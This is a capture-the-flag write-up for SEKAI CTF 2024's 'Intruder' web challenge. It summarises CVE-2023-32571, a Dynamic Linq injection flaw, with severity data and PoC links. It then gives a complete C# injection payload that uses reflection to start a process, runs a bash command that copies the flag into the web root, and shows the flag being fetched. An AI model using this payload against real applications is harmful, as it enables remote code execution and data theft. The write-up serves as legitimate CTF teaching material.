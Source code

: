 # SEKAI CTF 2024 Write up


## Web Exploitation

### Intruder

#### Results: CVE-2023-32571
###### Overview
- **Severity**: Critical | **CVSS Score**: 9.8
- **CVSS Vector**: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
- **Weaknesses**:
  - Incorrect Comparison
- **Published At:** June 22, 2023 | **Updated At**: July 3, 2023
- **CPE**: dynamic-linq:linq
#### Description
Dynamic Linq 1.0.7.10 through 1.2.25 before 1.3.0 allows attackers to execute arbitrary code and commands when untrusted input to methods including Where, Select, OrderBy is parsed.
#### References:
  - [https://github.com/zzzprojects/System.Linq.Dynamic.Core](https://github.com/zzzprojects/System.Linq.Dynamic.Core)
  - [https://github.com/Tris0n/CVE-2023-32571-POC](https://github.com/Tris0n/CVE-2023-32571-POC)
  - [https://github.com/nomi-sec/PoC-in-GitHub](https://github.com/nomi-sec/PoC-in-GitHub)
  - [https://github.com/vert16x/CVE-2023-32571-POC](https://github.com/vert16x/CVE-2023-32571-POC)
#### Proof of Concept:

- [https://research.nccgroup.com/2023/06/13/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/](https://research.nccgroup.com/2023/06/13/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/) (Source: NVD, Added: Invalid Date)
- [https://github.com/vert16x/CVE-2023-32571-POC](https://github.com/vert16x/CVE-2023-32571-POC) (Source: gh-nomi-sec, Added: November 18, 2023)
- [https://github.com/Tris0n/CVE-2023-32571-POC](https://github.com/Tris0n/CVE-2023-32571-POC) (Source: gh-nomi-sec, Added: November 18, 2023)
- [https://research.nccgroup.com/2023/06/13/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/](https://research.nccgroup.com/2023/06/13/dynamic-linq-injection-remote-code-execution-vulnerability-cve-2023-32571/) (Source: trickest, Added: Invalid Date)


#### Vulnerable Code

![image](https://hackmd.io/_uploads/HyQGgIYoC.png)


Payload

```csharp
") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"cat /flag_*>/app/src/wwwroot/flag.txt\"".Split(";".ToCharArray())).GetType().ToString() == ("
```

Then access `https://<link>/flag.txt` to retrive the flag.